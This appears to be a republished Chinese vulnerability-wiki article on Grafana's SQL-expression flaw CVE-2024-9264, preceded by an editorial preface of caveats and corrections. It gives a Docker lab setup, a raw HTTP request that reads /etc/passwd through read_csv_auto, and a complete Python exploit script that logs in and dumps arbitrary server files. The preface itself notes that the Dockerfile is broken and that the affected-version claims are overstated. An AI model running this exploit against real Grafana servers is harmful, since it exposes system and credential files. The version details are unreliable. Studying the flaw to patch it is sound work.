


## 核对与使用边界

- 明确实验边界：本文需要 Viewer 或更高角色、启用相关 SQL 表达式路径且 PATH 中额外有 duckdb；读取 read_csv_auto 的实验不能单独证明命令执行。Dockerfile 缺续行且 USER root 未切回，构建/运行权限不同于默认部署，不能外推所有 Grafana 11.x。

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；默认公开示例、攻击表达式和其他 Cookie 语义保持原样。

- 明确更正：原 version 字段取自安全/修复版本清单，不能当受影响版本。已移入 version_notes 保留来源值；应逐分支核对原公告，不能把修复版反列为漏洞版。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：正文泛11.x，起点11.0.0；末尾列各分支security-01补丁，元数据只取11.0.5+security-01固定版本

代码与实验材料：明确Viewer以上与PATH额外安装duckdb，实例仅验证read_csv_auto文件读取；Dockerfile缺续行，实验USER root未切回

来源证据范围：官方安全公告与zekosec独立文件读取研究；保留完整Python来源署名

- **事实待核（1）**：版本字段把固定版本当影响值；依据：version=11.0.5+security-01，正文影响11.x过宽，固定列表需分支关联。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：部署示例不能直接构建且放大运行权限；依据：RUN apt命令下一行以&amp;&amp;开头但上一行无反斜线；USER root持续到镜像结束；挂载grafana.ini却未提供内容。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（3）**：读取PoC输出处理和安全边界；依据：打印用户名密码、无timeout；URL quote文件名不等于SQL字符串转义；frame values按列拼接可能改变原文件布局；没有RCE演示。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Grafana SQL 表达式远程代码执行漏洞 CVE-2024-9264

## 漏洞描述

Grafana 的 SQL 表达式实验特性功能允许用户输入的 `duckdb` 查询。这些查询在传递给 `duckdb` 之前未经过充分过滤，从而导致命令注入和本地文件包含漏洞。任何具有 VIEWER 或更高权限的用户都能够执行此攻击。

注意，`duckdb` 二进制文件必须存在于 Grafana 的 `$PATH` 中，此攻击才能成功；默认情况下，此二进制文件未安装在 Grafana 发行版中。

参考链接：

- https://grafana.com/security/security-advisories/cve-2024-9264/
- https://zekosec.com/blog/file-read-grafana-cve-2024-9264/

## 漏洞影响

```
Grafana 11.x.x
```

## 网络测绘

```
app="Grafana_Labs-公司产品"
```

## 环境搭建

我们使用 Grafana 11.0.0 构建环境，安装  `duckdb` 二进制文件并将其添加到 Grafana 的 `$PATH` 中。下载 [duckdb_cli-linux-amd64.zip](https://github.com/duckdb/duckdb/releases/download/v0.8.1/duckdb_cli-linux-amd64.zip)，与 Dockerfile、docker-compose.yml 放置在同一目录。

Dockerfile

```
FROM grafana/grafana:11.0.0-ubuntu

USER root

# Install DuckDB
COPY duckdb_cli-linux-amd64.zip /tmp/

RUN apt-get update && apt-get install -y && apt-get install unzip -y
    && unzip /tmp/duckdb_cli-linux-amd64.zip -d /usr/local/bin/ \
    && chmod +x /usr/local/bin/duckdb \
    && rm /tmp/duckdb_cli-linux-amd64.zip

# Add DuckDB to the PATH
ENV PATH="/usr/local/bin:${PATH}"
```

docker-compose.yml

```
services:
  mysql:
    image: mysql:latest
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=rootpassword
      - MYSQL_DATABASE=grafanadb
      - MYSQL_USER=grafana
      - MYSQL_PASSWORD=grafanapassword
    volumes:
      - ./mysql-data:/var/lib/mysql
    ports:
      - "3306:3306"
    healthcheck:
      test: ["CMD", "mysqladmin", "ping", "-h", "localhost"]
      interval: 10s
      timeout: 5s
      retries: 3
  
  grafana:
    build: .
    ports:
      - "3000:3000"
    environment:
      - GF_SECURITY_ADMIN_PASSWORD=AwesomePoc123!
      - GF_DATABASE_TYPE=mysql
      - GF_DATABASE_HOST=mysql:3306
      - GF_DATABASE_USER=grafana
      - GF_DATABASE_PASSWORD=grafanapassword
      - GF_DATABASE_NAME=grafanadb
    volumes:
      - grafana-storage:/var/lib/grafana
      - ./grafana.ini:/etc/grafana/grafana.ini

    depends_on:
        mysql:
         condition: service_healthy  
volumes:
  grafana-storage:
  mysql-storage:
```

当前目录执行如下命令，启动一个 Grafana 11.0.0 环境：

```
docker build -t grafana:11.0.0 .
docker-compose up -d
```

环境启动后，访问 `http://your-ip:3000` 即可查看到管理后台。由于配置了密码，需要使用 `admin/AwesomePoc123!` 登录管理后台。




## 漏洞复现

发送如下 POST 请求，将数据源类型修改为 `sql`。利用 `read_csv_auto（）` 从目标系统读取任意文件，例如，`/etc/passwd`：

```
POST /api/ds/query?ds_type=__expr__&expression=true&requestId=Q100 HTTP/1.1
Host: your-ip:3000
Content-Type: application/json
Cookie: grafana_session=23e**************************664; grafana_session_expiry=1730791660
Content-Length: 368

{
  "from": "1696154400000",
  "to": "1696345200000",
  "queries": [
    {
      "datasource": {
        "name": "Expression",
        "type": "__expr__",
        "uid": "__expr__"
      },
      "expression": "SELECT * FROM read_csv_auto('/etc/passwd');",
      "hide": false,
      "refId": "B",
      "type": "sql",
      "window": ""
    }
  ]
}
```




## 漏洞 POC

```python
#!/usr/bin/env python3

"""
Grafana File Read PoC (CVE-2024-9264)
Author: z3k0sec // www.zekosec.com
"""


import requests
import json
import sys
import argparse

class Console:
    def log(self, msg):
        print(msg, file=sys.stderr)

console = Console()

def msg_success(msg):
    console.log(f"[SUCCESS] {msg}")

def msg_failure(msg):
    console.log(f"[FAILURE] {msg}")

def failure(msg):
    msg_failure(msg)
    sys.exit(1)

def authenticate(s, url, u, p):
    res = s.post(f"{url}/login", json={"password": p, "user": u})
    if res.json().get("message") == "Logged in":
        msg_success(f"Logged in as {u}:{p}")
    else:
        failure(f"Failed to log in as {u}:{p}")

def run_query(s, url, query):
    query_url = f"{url}/api/ds/query?ds_type=__expr__&expression=true&requestId=1"
    query_payload = {
        "from": "1696154400000",
        "to": "1696345200000",
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                "expression": query,
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    res = s.post(query_url, json=query_payload)
    data = res.json()

    # Handle unexpected response
    if "message" in data:
        msg_failure("Unexpected response:")
        msg_failure(json.dumps(data, indent=4))
        return None

    # Extract results
    frames = data.get("results", {}).get("B", {}).get("frames", [])

    if frames:
        values = [
            row
            for frame in frames
            for row in frame["data"]["values"]
        ]
        
        if values:
            msg_success("Successfully ran DuckDB query:")
            return values

    failure("No valid results found.")

def decode_output(values):
    return [":".join(str(i) for i in row if i is not None) for row in values]

def main(url, user="admin", password="admin", file=None):
    s = requests.Session()
    authenticate(s, url, user, password)
    file = file or "/etc/passwd"
    escaped_filename = requests.utils.quote(file)
    query = f"SELECT * FROM read_csv_auto('{escaped_filename}');"
    content = run_query(s, url, query)
    if content:
        msg_success(f"Retrieved file {file}:")
        for line in decode_output(content):
            print(line)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Arbitrary File Read in Grafana via SQL Expression (CVE-2024-9264).")
    parser.add_argument("--url", help="URL of the Grafana instance to exploit")
    parser.add_argument("--user", default="admin", help="Username to log in as, defaults to 'admin'")
    parser.add_argument("--password", default="admin", help="Password used to log in, defaults to 'admin'")
    parser.add_argument("--file", help="File to read on the server, defaults to '/etc/passwd'")


    args = parser.parse_args()
    main(args.url, args.user, args.password, args.file)

```

## 漏洞修复

该漏洞最早出现在 Grafana 11.0.0 版本，现已在以下版本（OSS 和 Enterprise 版本）中修复：

```
11.0.5+security-01
11.1.6+security-01
11.2.1+security-01
11.0.6+security-01
11.1.7+security-01
11.2.2+security-01
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
